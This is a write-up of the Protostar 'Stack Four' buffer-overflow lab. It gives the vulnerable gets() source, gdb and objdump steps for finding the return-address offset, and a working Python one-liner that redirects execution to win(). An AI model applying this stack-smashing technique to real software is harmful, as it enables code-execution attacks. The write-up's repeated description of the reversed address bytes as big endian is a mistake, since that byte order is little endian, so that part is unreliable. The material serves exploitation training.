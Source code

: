 # Stack Four

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

**Hints**

- A variety of introductory papers into buffer overflows may help.
- gdb lets you do "run < input"
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Writeup

In this code we have only the buffer and we need to call the **win()** function by overriding the **return address** pointed by **EIP**.

First of all we need to discover the address of the **win()** function and convert it in **big endian**:

```bash
objdump -d /opt/protostar/bin/stack4
```

This is the win() function:

```
080483f4 <win>:
 80483f4:	55                   	push   %ebp
 80483f5:	89 e5                	mov    %esp,%ebp
 80483f7:	83 ec 18             	sub    $0x18,%esp
 80483fa:	c7 04 24 e0 84 04 08 	movl   $0x80484e0,(%esp)
 8048401:	e8 26 ff ff ff       	call   804832c <puts@plt>
 8048406:	c9                   	leave  
 8048407:	c3                   	ret  
```

The address in **big endian** will be:

```
\xf4\x83\x04\x08
```

Now we need to find how much of **words** there are between the **buffer** and the **EIP**. We can find it with **gdb**:

```bash
gdb /opt/protostar/bin/stack4
```

Use the **start** command:

```
start
```

To make first instruction of the binary including calling the first instruction of **main**.

Now the **return address** is written in the stack and we can find it using the register **EBP** and add a single word. (ebp + 1):

```
p $ebp+4
```

With this output:

```
(gdb) p $ebp+4
$1 = (void *) 0xbffffcbc
```

To find the address of the **buffer** we can set a breakpoint in te instruction before calling the **gets**.

To find the address of the code which make the breakpoint we can disassembly the main function, as this:

```
disass main
```

With this output:

```
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   %ebp
0x08048409 <main+1>:	mov    %esp,%ebp
0x0804840b <main+3>:	and    $0xfffffff0,%esp
0x0804840e <main+6>:	sub    $0x50,%esp
0x08048411 <main+9>:	lea    0x10(%esp),%eax
0x08048415 <main+13>:	mov    %eax,(%esp)
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
```

Now set the breakpoint:

```
b *0x08048418
```

And send the **continue** command (alias **c**):

```
c
```

The address of buffer is now stored in **EAX** register, we can find it with the command:

```
info registers
```

With this output:

```
(gdb) info registers
eax            0xbffffc70	-1073742736
ecx            0xf356b2ab	-212421973
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc60	0xbffffc60
ebp            0xbffffcb8	0xbffffcb8
esi            0x0	0
edi            0x0	0
eip            0x8048418	0x8048418 <main+16>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

We are now able to discover the number of word between the **buffer** and the **EIP**:

```
0xbffffcbc - 0xbffffc70 = 4C = 76
```

The buffer size is 64, we can subtract 64:

```
76 - 64 = 12
```

Divide the number by 4 and obtain the number of words:

```
12 / 4 = 3 
```

Need to write 3 word of junk.

The exploit will be:

```bash
python -c "print('a' * 64 + 'bbbb' * 3 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
```

With this output:

```bash
$ python -c "print('a' * 64 + 'bbbb' * 3 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```